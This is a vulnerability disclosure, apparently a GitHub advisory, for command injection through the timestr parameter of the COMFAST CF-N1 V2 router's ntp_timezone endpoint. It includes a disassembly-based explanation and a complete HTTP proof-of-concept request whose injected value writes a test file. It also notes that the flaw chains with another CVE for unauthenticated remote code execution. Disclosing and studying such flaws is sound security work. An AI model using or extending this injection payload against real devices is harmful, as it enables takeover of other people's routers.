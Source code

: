 

# COMFAST CF-N1 V2 V2.6.0 Command Injection in `ntp_timezone`
PS:
1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.
2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `ntp_timezone` API (`/usr/bin/webmgnt`, function `sub_431C9C`). Attackers can inject arbitrary commands via the `timestr` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comf](http://www.comfast.cn/)[ast](http://www.comfast.cn/)[.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.co](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[mfast](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.com](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.cn/in](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[dex.p](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[hp?m=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[conte](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[nt\&c=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[i](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ndex](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[\&a=sh](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ow\&ca](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[tid=3](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[1\&id=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ntp_timezone`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_431C9C` function handling the `ntp_timezone` configuration. Disassembly analysis shows that the user-controlled `timestr` parameter is unsanitized and directly incorporated into system commands via `sprintf_0` before execution by `system_0`.

Key code flow:



1.  User input (including `timestr`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  The `timestr` parameter is inserted into command strings using `sprintf_0` (e.g., constructing cron job entries or time-related commands).

3.  The constructed commands are executed via `system_0` without sanitization, allowing injection of arbitrary commands through delimiters like `";`, `&&`, or `#`.

This direct concatenation of unvalidated input into executable commands enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=ntp_timezone HTTP/1.1
Host: cflogin.cn
Content-Length: 173
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{ "timestr":"\"; echo time > /www-comfast/test.txt #",
"timezone":"0","zonename": "0","hostname": "0","ntp_client_enabled":"0","ntp_enable_server":"0","ntp_servername":"0"
}
```



*   **Notes**: The vulnerable parameter is `timestr`, exploited using `";` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "time", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
